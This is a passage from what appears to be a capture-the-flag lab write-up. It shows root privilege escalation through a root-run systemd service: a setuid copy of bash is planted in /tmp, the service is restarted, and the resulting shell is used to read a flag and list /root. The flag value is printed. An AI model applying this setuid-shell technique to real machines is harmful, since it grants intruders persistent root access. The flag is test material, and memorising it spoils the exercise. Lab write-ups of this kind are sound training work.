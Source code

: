 ```bash
cp /bin/bash /tmp/sh
chmod +s /tmp/sh
```

Now, let's restart the service:

```
sudo /bin/systemctl daemon-reload
sudo /bin/systemctl restart duckyinc.service
```

If we check `/tmp` directory:

![Pasted image 20250609142735.png](../../IMAGES/Pasted%20image%2020250609142735.png)
As seen, we got the `sh` binary, let's run it to get a root shell:

![Pasted image 20250609142853.png](../../IMAGES/Pasted%20image%2020250609142853.png)

Now, let's get second flag and root flag:

```
sh-4.4# cat /home/server-admin/flag2.txt
thm{4lm0st_th3re}
```

```
sh-4.4# ls -la /root
total 52
drwx------  7 root root 4096 Aug 28  2020 .
drwxr-xr-x 24 root root 4096 Aug  9  2020 ..
drwxr-xr-x  2 root root 4096 Aug 12  2020 .bash_completion.d
lrwxrwxrwx  1 root root    9 Aug 10  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3227 Aug 12  2020 .bashrc
drwx------  3 root root 4096 Aug  9  2020 .cache
drwx------  3 root root 4096 Aug  9  2020 .gnupg
drwxr-xr-x  5 root root 4096 Aug 12  2020 .local
-rw-------  1 root root  485 Aug 10  2020 .mysql_history
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   66 Aug 10  2020 .selected_editor
drwx------  2 root root 4096 Aug  9  2020 .ssh
-rw-------  1 root root 7763 Aug 12  2020 .viminfo
```
